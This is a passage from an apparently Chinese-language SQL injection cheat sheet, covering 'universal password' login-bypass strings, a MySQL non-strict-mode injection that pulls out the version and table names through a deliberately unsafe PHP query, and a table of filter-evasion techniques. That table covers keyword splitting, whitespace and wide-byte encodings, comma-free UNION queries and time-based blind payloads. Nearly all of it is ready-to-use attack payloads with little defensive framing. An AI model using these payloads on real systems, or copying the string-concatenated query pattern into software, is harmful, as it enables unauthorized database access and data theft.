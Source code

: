 # **5 万能密码**
```sql
【=】优先于【and】，【and】优先于【or】，且适用传递性
select * from *** where username ="" and password="";
Select * from user where username ='admin' or '1'='1' and password ='';
Select * from user where username ='1'or '1'='1'#' and password ='';
Select * from user where username ='' and password ='Abc' or '1'='1'#';
admin' or 1=1--;
等等

```
# **6 其他非严格模式下的注入方式**
在mysql中，字符串和数组进行或运算时，将得到数字。但是需要注意的是，这个特性需要在MySQL的非严格模式
select 'abc'|123; 结果得到123
```php
$sql1 = "update users set username='$username' where id='$id'";
var_dump($sql1);
$sql2 = "select * from users where id='$id'";
var_dump($sql2);
```
那么接下来就是注入的过程，我们将需要查询的数据转换为数字，转换的方法就是采用转换为十六进制的方法。访问test.php?id=1&username=tom'|conv(hex(version()),16,10)|'或者
?id=1&username=ppp'| conv(hex(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,5)),16,10)|'

得到这个数据之后接下来就是进行解码，解码的方式使用unhex()即可。
# **7 绕过姿势备忘录**
|相关姿势                          |                      具体描述
-|-|
|or and过滤                        |	大小写变形 Or,OR,oR<br>编码，hex，urlencode<br>添加注释/\*or\*/<br>利用符号 and=&& or=\|\|<br>admin'%(ascii(mid(database()) from 1 for 1)=90)%'1<br>admin'^(1)^'1'|
|空格过滤                           | %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 %0b TAB键（垂直） %a0 空格 |
|关键字的绕过                       | 注释符绕过:uni/\*\*/on se/\*\*/lect <br> 大小写绕过:UniOn SeleCt <br> 双关键字绕过:ununionion seselectlect <br> <>绕过:unio<>n sel<>ect <br>/\*!00000select\*/绕过关键字和正则过滤
|宽字节注入                        | 过滤单引号时，可以试试宽字节%bf%27 %df%27 %aa%27|
|大于号小于号拦截绕过               | id=1 and greatest(ascii(substr(username,1,1)),1)=97 <br> id=1 and strcmp(ascii(substr(username,1,1)),1); <br> id = 1 and substr(username,1,1) in ('a'); <br> id = 1 and substr(username,1,1) between 0x61 and 0x63;|
|逗号绕过                          | 在使用盲注的时候，需要使用到substr(),mid(),limit；这些子句方法都需要使用到逗号。<br>对于substr()和mid()这两个方法可以使用from for的方式来解决，limit则可以用offset<br>select * from sql_test where ascii(mid(username from 1 for 1))>1;<br>substr(x from 1 for 1) mid(x from 1 for 1)<br>select查询时候不使用逗号进行注入的姿势<br>id=3' union select * from(select database()) a join (select version() ) b %23<br>?id=3' union select * from (select group_concat(table_name ) from information_schema.tables where table_schema = 'sqli' ) a join (select version() ) b %23<br>id=' union select * from (select group_concat(column_name) from information_schema.columns where table_name = 'users' ) a join (select version() ) b %23<br>id=' union select * from (select group_concat(username) from users) a join (select group_concat(flag_9c861b688330) from users) b %23<br>1' select case when (substring(select flag from flag from i for 1))=j) then sleep(6) else 0 end and '1'='1<br>1'+substring(select(flag)from(flag)from(i)for(1))=j<br>0'^(select hex(hex(substr((select flag from flag) from {i} for 1))))^'0<br>